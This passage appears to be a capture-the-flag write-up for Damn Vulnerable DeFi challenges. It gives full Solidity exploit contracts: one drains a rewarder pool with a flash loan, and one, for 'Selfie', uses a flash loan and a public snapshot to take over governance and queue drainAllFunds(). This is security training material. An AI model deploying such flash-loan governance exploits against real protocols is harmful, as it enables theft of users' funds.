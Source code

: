 ```
    }
    function exploit() external {
        flpool.flashLoan(dvtoken.balanceOf(address(flpool)));
        rtoken.transfer(msg.sender, rtoken.balanceOf(address(this)));
    }
    function receiveFlashLoan(uint256 amount) external {
        dvtoken.approve(address(rpool), amount);
        rpool.deposit(amount);
        rpool.withdraw(amount);
        dvtoken.transfer(address(flpool), amount);
    }
}
```

### Selfie
The objective of this challenge is:
- Transfer all DVT tokens from `SelfiePool` contract to the attacker.
  
To call `queueAction()` function in `SimpleGovernance` contract, the caller must own more than half the supply of DVT tokens at the last snapshot. Since `DamnValuableTokenSnapshot` contract implements `snapshot()` function that anyone can call, the challenger can call the `snapshot()` function after receiving a flash loan to a temporarily increase its balance for taken snapshot. Having more the half the the supply of DVT tokens during the snapshot, the challenger can arbitrarily execute any action including and most importantly the `drainAllFunds()` function in `SelfiePool` contract.
```
<!-- Solidity -->
contract SelfieExploit {
    SelfiePool public spool;
    DamnValuableTokenSnapshot public token;
    SimpleGovernance public governance;
    address private owner;
    
    constructor (address _spool, address _token, address _governance) {
        spool = SelfiePool(_spool);
        token = DamnValuableTokenSnapshot(_token);
        governance = SimpleGovernance(_governance);
        owner = msg.sender;
    }
    function exploit() external {
        spool.flashLoan(token.balanceOf(address(spool)));
    }
    function receiveTokens(address tokenAddress, uint256 borrowAmount) external {
        token.snapshot();
        governance.queueAction(
            address(spool),
            abi.encodeWithSignature("drainAllFunds(address)", owner),
            0
        );
        token.transfer(address(spool), borrowAmount);
    }
}
```
